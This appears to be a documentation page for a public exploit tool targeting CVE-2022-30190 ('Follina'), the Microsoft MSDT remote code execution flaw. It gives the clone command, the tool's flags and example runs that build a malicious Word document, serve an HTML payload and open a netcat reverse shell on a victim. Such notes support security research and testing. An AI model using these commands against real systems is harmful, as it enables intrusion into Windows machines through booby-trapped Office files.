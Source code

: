 icon:fontawesome/solid/unlock-keyhole

# CVE-2022-30190

CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability ‘Follina’.

CVE-2022-30190 is a remote code execution vulnerability that exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.

## Installation

```bash
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```bash
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```bash
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop **calc.exe**:

```bash
$ python3 follina.py
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop **notepad.exe**:

```bash
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. Note, this downloads a netcat binary onto the victim and places it in **C:\Windows\Tasks**. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.

```bash
python3 follina.py -r 9001
```

![Folina example](../assets/images/folina-example.png)

## References

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability ‘follina’](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT ‘Follina’ Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - ‘Follina’ MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
